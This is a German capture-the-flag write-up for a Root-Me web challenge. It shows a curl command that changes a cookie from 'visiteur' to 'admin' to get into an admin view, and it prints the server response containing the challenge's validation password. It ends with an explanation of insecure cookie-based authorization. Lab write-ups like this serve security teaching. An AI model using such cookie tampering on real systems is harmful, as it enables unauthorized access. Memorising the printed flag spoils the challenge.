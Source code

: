 
**Erklärung:**

- `-i`: Zeigt die HTTP-Header der Antwort an.
- `-X POST`: Verwendet die HTTP-Methode POST.
- `-d`: Sendet die angegebenen Daten im Body der Anfrage.​
    

In der Antwort sollte ein `Set-Cookie`-Header vorhanden sein, der den Cookie `ch7=visiteur` setzt.

2. **Manipulieren des Cookies:** Nun ändern wir den Wert des Cookies `ch7` von `visiteur` zu `admin` und senden eine GET-Anfrage, um die gespeicherten E-Mail-Adressen abzurufen.
    
    **Verwenden von `curl`:**
    `curl -i -b "ch7=admin" http://challenge01.root-me.org/web-serveur/ch7/?c=admin`
    
**Erklärung:**
- `-b "ch7=admin"`: Setzt den Cookie `ch7` auf den Wert `admin`.​

```
C:\Users\nico->curl -i -b "ch7=admin" http://challenge01.root-me.org/web-serveur/ch7/?c=admin


HTTP/1.1 200 OK
Server: nginx
Date: Mon, 28 Apr 2025 16:36:34 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
Vary: Accept-Encoding

<div>Validation password : ml-SYMPA
</div></fieldset>
C:\Users\nico->
```

### 📝 Hintergrundinformation

Diese Challenge zeigt, wie wichtig eine sichere Verwaltung von Cookies ist. Wenn der Zugriff auf administrative Funktionen lediglich durch den Wert eines Cookies gesteuert wird, können Angreifer durch Manipulation dieses Cookies unbefugten Zugriff erlangen. Es ist daher entscheidend, dass Server die Authentizität und Integrität von Cookies überprüfen und nicht allein auf deren Vorhandensein oder Wert vertrauen.
